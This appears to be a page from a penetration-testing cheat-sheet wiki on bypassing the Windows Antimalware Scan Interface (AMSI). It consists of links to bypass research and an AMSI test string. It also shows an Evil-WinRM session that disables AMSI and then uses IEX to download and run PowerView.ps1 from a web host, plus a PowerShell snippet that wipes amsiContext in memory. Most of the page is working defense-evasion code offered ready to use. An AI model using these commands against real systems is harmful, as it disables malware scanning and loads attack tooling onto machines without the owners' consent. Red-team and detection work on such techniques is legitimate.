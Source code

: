 ```yaml
---
description: Antimalware Scan Interface
---
```


# AMSI Bypass

* [https://amsi.fail/](https://amsi.fail/)
* [https://github.com/subat0mik/whoamsi](https://github.com/subat0mik/whoamsi)
* [https://blog.f-secure.com/hunting-for-amsi-bypasses/](https://blog.f-secure.com/hunting-for-amsi-bypasses/)
* [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
* [https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
* [https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
* [https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
* [https://iwantmore.pizza/posts/amsi.html](https://iwantmore.pizza/posts/amsi.html)
* [https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation](https://github.com/BC-SECURITY/Beginners-Guide-to-Obfuscation)
* [https://ethicalchaos.dev/2022/04/17/in-process-patchless-amsi-bypass/](https://ethicalchaos.dev/2022/04/17/in-process-patchless-amsi-bypass/)
* [https://github.com/Mr-Un1k0d3r/AMSI-ETW-Patch](https://github.com/Mr-Un1k0d3r/AMSI-ETW-Patch)
* [https://www.blazeinfosec.com/post/tearing-amsi-with-3-bytes/](https://www.blazeinfosec.com/post/tearing-amsi-with-3-bytes/)

AMSI Test [Sample](https://gist.github.com/rasta-mouse/5cdf25b7d3daca5536773fdf998f2f08):

```
PS > Invoke-Expression "AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386"
```




## PowerShell



### Evil-WinRM + IEX

```
*Evil-WinRM* PS > menu
*Evil-WinRM* PS > Bypass-4MSI
*Evil-WinRM* PS > IEX([Net.Webclient]::new().DownloadString("http://127.0.0.1/PowerView.ps1"))
```



### Wipe amsiContext

{% code title="amsiContext.ps1" %}
```powershell
$a = [Ref].Assembly.GetTypes()
ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}}
$d = $c.GetFields('NonPublic,Static')
ForEach($e in $d) {if ($e.Name -like "*Context") {$f = $e}}
$g = $f.GetValue($null)
[IntPtr]$ptr = $g
[Int32[]]$buf = @(0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```
{% endcode %}
